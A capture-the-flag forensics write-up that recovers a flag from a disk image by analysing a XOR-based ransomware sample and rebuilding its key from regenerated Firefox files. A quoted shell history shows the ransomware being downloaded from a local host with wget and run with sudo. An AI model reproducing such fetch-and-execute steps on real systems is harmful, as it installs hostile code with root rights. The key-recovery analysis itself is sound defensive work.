


To analyze the disk image, I converted .qcow2 image format to raw image format.
```
qemu-img disk.qcow2 -O raw disk.raw
```
MBR has bootloader which loads a code that prints some message and does nothing.
Scrolling down hex editor on raw image, there is another bootsector.

Let's extract the partition and boot. The partition can be analyzed by FTK Imager.

There is /home/tc folder on tgz file. I doubt it's extracted when booting. Let's look .ash_history.

```
tce-load -wil firefox-ESR
exit
tce-load -i firefox-ESR
firefox 172.17.0.1
wget http://172.17.0.1/getflag.bin -O getflag --user-agent="Chrome"
./getflag 
chmod +x getflag 
./getflag 
sudo ./getflag 
ls
firefox h1dd3n_s3cr3t_f14g.jpg 
```

According to this file, there would be "getflag" and "h1dd3n_s3cr3t_f14g.jpg". It exists!
But the jpg file has no signature.

`getflag` is ELF file ransomware which does XOR operation on every file inside `/home/tc` with same 0x400 size key which is from /dev/urandom. Before encrypting the files, it downloads `h1dd3n_s3cr3t_f14g.jpg` via wget. The jpg file is also encrypted.

Except this file, there are some files which are encrypted.

```
-rwxrwx--- 1 root root 248 11월 29 10:57 ./.local/share/mime/packages/user-extension-htm.xml
-rwxrwx--- 1 root root 251 11월 29 10:57 ./.local/share/mime/packages/user-extension-html.xml
-rwxrwx--- 1 root root 254 11월 29 10:57 ./.local/share/mime/packages/user-extension-shtml.xml
-rwxrwx--- 1 root root 248 11월 29 10:57 ./.local/share/mime/packages/user-extension-xht.xml
-rwxrwx--- 1 root root 254 11월 29 10:57 ./.local/share/mime/packages/user-extension-xhtml.xml
-rwxrwx--- 1 root root 207840 11월 29 10:57 ./.mozilla/firefox/wir5mrmb.default/blocklist.xml
-rwxrwx--- 1 root root 2723 11월 29 10:57 ./.mozilla/firefox/wir5mrmb.default/revocations.txt
```

Since the size of the jpg file is more than 0x400, we need to obtain full 0x400 size XOR key.
If we have original blocklist.xml or revocations.txt, we can get the key by XOR-ing the original one and the encrypted one.
Fortunately, by removing profile and profile.ini on `.mozilla/firefox`, we can regenerate two files which has the same size.

```
-rwxrwx--- 1 root root 207840 12월 11 13:48 blocklist.xml
-rwxrwx--- 1 root root   2723 12월 11 13:48 revocations.txt
```

Cool. Let's get the encryption key.

```
tc@box:~$ python -c 'import sys; print [ord(x)^ord(y) for x, y in zip(open(sys.argv[1], "rb").read(), open(sys.argv[2], "rb").read())][:0x400]' revocations.txt /home/tc/.mozilla/firefox/wir5mrmb.default/revocations.txt
[98, 240, 180, 12, 71, 139, 111, 251, 164, 144, 75, 101, 114, 177, 172, 201, 61, 96, 38, 89, 126, 187, 125, 225, 93, 53, 92, 181, 222, 113, 7, 147, 71, 20, 1, 240, 76, 155, 139, 84, 190, 0, 20, 43, 47, 86, 161, 151, 5, 15, 229, 200, 163, 85, 116, 70, 82, 88, 151, 8, 168, 232, 45, 93, 110, 145, 98, 132, 179, 112, 8, 20, 197, 181, 118, 109, 107, 249, 3, 195, 249, 34, 153, 102, 98, 27, 68, 226, 43, 91, 103, 100, 46, 150, 135, 221, 125, 198, 110, 28, 255, 200, 251, 1, 187, 1, 224, 153, 197, 196, 103, 200, 193, 48, 60, 212, 233, 145, 125, 106, 233, 172, 15, 61, 79, 161, 21, 150, 93, 214, 63, 171, 144, 46, 133, 187, 225, 208, 179, 216, 156, 179, 235, 71, 89, 49, 50, 91, 251, 255, 117, 181, 54, 230, 167, 247, 171, 155, 73, 2, 239, 143, 242, 247, 116, 89, 114, 103, 46, 107, 174, 60, 65, 226, 43, 159, 51, 49, 192, 223, 181, 35, 212, 8, 133, 192, 238, 50, 207, 175, 76, 29, 10, 124, 12, 64, 207, 40, 149, 82, 30, 44, 199, 5, 251, 78, 238, 209, 92, 212, 95, 166, 42, 150, 171, 219, 7, 244, 136, 135, 202, 164, 208, 222, 171, 183, 228, 238, 77, 0, 200, 147, 172, 226, 229, 23, 122, 170, 147, 89, 234, 206, 205, 26, 77, 49, 130, 226, 100, 167, 112, 171, 29, 63, 232, 142, 208, 173, 90, 164, 172, 224, 125, 167, 24, 30, 170, 21, 178, 191, 90, 161, 176, 85, 139, 36, 66, 140, 135, 176, 25, 130, 227, 42, 49, 35, 238, 133, 246, 38, 16, 251, 255, 138, 124, 76, 250, 82, 132, 203, 119, 184, 138, 194, 62, 133, 123, 5, 140, 11, 114, 92, 141, 231, 203, 196, 141, 88, 238, 54, 105, 50, 76, 92, 184, 146, 168, 135, 37, 7, 167, 118, 184, 80, 217, 121, 107, 66, 242, 137, 145, 121, 59, 160, 0, 17, 164, 22, 35, 193, 72, 181, 156, 112, 57, 65, 160, 43, 124, 182, 239, 221, 232, 248, 160, 35, 109, 182, 147, 218, 6, 200, 160, 223, 129, 131, 15, 21, 73, 253, 83, 237, 245, 44, 188, 211, 210, 162, 153, 212, 29, 113, 222, 211, 79, 74, 57, 47, 130, 93, 33, 232, 219, 109, 133, 226, 132, 89, 112, 52, 37, 121, 245, 32, 207, 207, 169, 83, 3, 219, 10, 250, 231, 13, 185, 127, 80, 187, 27, 97, 213, 112, 118, 215, 170, 110, 27, 16, 217, 140, 132, 168, 183, 0, 49, 103, 195, 36, 202, 246, 230, 107, 141, 105, 7, 27, 57, 40, 159, 101, 2, 27, 207, 30, 145, 61, 139, 142, 186, 128, 170, 245, 58, 33, 199, 103, 100, 19, 205, 152, 71, 12, 186, 206, 82, 212, 254, 80, 31, 147, 156, 0, 127, 236, 181, 130, 158, 9, 201, 102, 124, 237, 241, 162, 253, 7, 227, 208, 156, 250, 194, 235, 54, 117, 19, 46, 132, 232, 107, 181, 134, 232, 3, 182, 35, 254, 229, 144, 125, 23, 146, 2, 104, 3, 151, 210, 193, 226, 218, 154, 28, 65, 47, 137, 25, 244, 6, 7, 119, 69, 142, 2, 196, 247, 247, 239, 174, 141, 41, 59, 84, 226, 224, 242, 218, 61, 254, 28, 132, 116, 249, 193, 249, 70, 227, 131, 135, 221, 178, 237, 169, 75, 117, 205, 210, 215, 251, 254, 45, 232, 234, 137, 107, 123, 169, 99, 223, 100, 95, 17, 172, 216, 226, 79, 128, 202, 136, 162, 208, 245, 87, 65, 221, 174, 136, 247, 209, 158, 241, 185, 146, 65, 222, 66, 120, 165, 225, 240, 79, 239, 2, 63, 206, 150, 227, 32, 60, 234, 109, 196, 229, 127, 13, 207, 214, 9, 101, 167, 61, 137, 207, 3, 193, 219, 218, 67, 135, 68, 134, 17, 154, 183, 74, 236, 25, 206, 244, 37, 88, 159, 40, 181, 53, 84, 221, 148, 116, 201, 52, 67, 1, 76, 203, 230, 7, 179, 82, 129, 152, 167, 31, 28, 134, 108, 98, 220, 28, 13, 25, 243, 11, 132, 160, 157, 194, 219, 68, 165, 230, 2, 211, 119, 242, 118, 11, 194, 154, 43, 125, 3, 45, 147, 136, 45, 145, 54, 182, 149, 16, 210, 18, 243, 253, 71, 208, 147, 120, 246, 102, 65, 185, 70, 111, 185, 235, 8, 105, 135, 122, 211, 201, 12, 210, 13, 218, 37, 138, 200, 86, 70, 38, 223, 129, 77, 135, 250, 235, 186, 205, 25, 155, 220, 199, 38, 9, 185, 244, 187, 43, 240, 29, 22, 108, 10, 209, 183, 22, 109, 95, 12, 44, 63, 16, 168, 64, 82, 123, 21, 8, 241, 149, 30, 31, 84, 181, 9, 138, 129, 152, 187, 176, 46, 247, 11, 96, 151, 208, 246, 51, 44, 74, 251, 102, 167, 227, 41, 108, 179, 224, 30, 147, 226, 189, 61, 93, 100, 36, 247, 135, 246, 226, 4, 208, 18, 229, 198, 14, 23, 112, 130, 94, 167, 80, 144, 247, 13, 228, 19, 119, 53, 232, 18, 93, 239, 46, 77, 19, 122, 1, 179, 37, 4, 114, 70, 4, 135, 2, 117, 79, 142, 57, 116, 56, 233, 193, 121, 23, 85, 71, 35, 177, 205, 157, 206, 113, 171, 138, 80, 202, 27, 92, 158, 231, 1, 116, 69, 255, 129, 118, 127, 190, 243, 244, 164, 13, 104, 175, 6, 47, 6, 163, 62, 24, 139, 70, 241, 16, 245, 12, 187, 114, 235, 238, 0, 117, 105, 8, 246, 108, 235, 237, 14, 207, 191, 106, 78, 166, 210, 206, 99, 59, 97, 186, 143, 129, 232, 227, 172, 147, 14, 60, 96, 40, 99, 195, 103, 157, 34, 100, 50, 251, 84, 124, 248, 80, 51, 200, 112, 159, 65, 255, 68, 121, 78, 89, 249, 170, 181, 74, 111, 9, 98, 27, 242, 247, 126, 90, 231, 150, 241, 188, 232, 42, 82, 195, 243, 242, 65, 136, 174, 248, 249, 243, 227, 85, 163, 212, 130, 205, 59, 208, 59, 212, 34]
```

To validate if the XOR key is valid, we can compare the key from 0x400~0x800 offset with this one.
```
tc@box:~$ python -c 'import sys; print [ord(x)^ord(y) for x, y in zip(open(sys.argv[1], "rb").read(), open(sys.argv[2], "rb").read())][0x400:][:0x400]' revocations.txt /home/tc/.mozilla/firefox/wir5mrmb.default/revocations.txt
[98, 240, 180, 12, 71, 139, 111, 251, 164, 144, 75, 101, 114, 177, 172, 201, ...]
```

It's same. Let's decrypt the jpg file with this key.
```
python -c 'import sys, itertools; data=[ord(a)^b for a, b in zip(open(sys.argv[3], "rb").read(), itertools.cycle([ord(x)^ord(y) for x, y in zip(open(sys.argv[1], "rb").read(), open(sys.argv[2], "rb").read())][:0x400]))]; open(sys.argv[3], "wb").write(bytearray(data))' blocklist.xml /home/tc/.mozilla/firefox/wir5mrmb.default/blocklist.xml h1dd3n_s3cr3t_f14g.jpg
```


**Flag: SECCON{This is Virtual FAT too}**